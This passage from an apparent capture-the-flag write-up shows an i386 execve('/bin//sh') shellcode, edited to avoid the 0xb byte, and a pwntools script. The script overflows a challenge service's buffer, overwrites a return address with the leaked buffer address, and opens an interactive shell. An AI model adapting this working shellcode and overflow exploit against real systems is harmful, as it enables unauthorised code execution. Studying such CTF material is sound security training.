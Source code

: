 Let's modify the shellcode to remove the "0xb" byte and save it into a file ([shellc.asm](shellc.asm))

```asm
	# shellc.asm
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f

    /* call execve('esp', 0, 0) */
    mov ebx, esp
    xor ecx, ecx
    xor eax, eax
    mov al, 0x4
    add al, 0x7
    cdq /* Set edx to 0, eax is known to be positive */
    int 0x80
```

Now the exploit script ([soln.py](soln.py)) looks like this. (the interactive() function to gets a interactive shell after the exploit is successful)

```python
# soln.py
from pwn import *
context.arch = 'i386'
context.os = 'linux'

conn = remote('localhost', 4444)
#conn = remote('54.210.15.77', 1259)
msg = conn.recvline()
bufaddr = int(msg[msg.find(":")+2:], 16)

#print shellcraft.i386.linux.sh()
scfile = open("shellc.asm", "r")
sc = scfile.read()
shellcode = asm(sc)

payload = shellcode
payload += "A"*(128 - len(shellcode))
payload += pack(0x475a31a5) + pack(0x40501555)
payload += "B"*(12)
payload += pack(bufaddr)
conn.sendline(payload)
conn.interactive()
```

The script finally works!! Now run it against the challenge server and get the flag

![03](img/03.png)
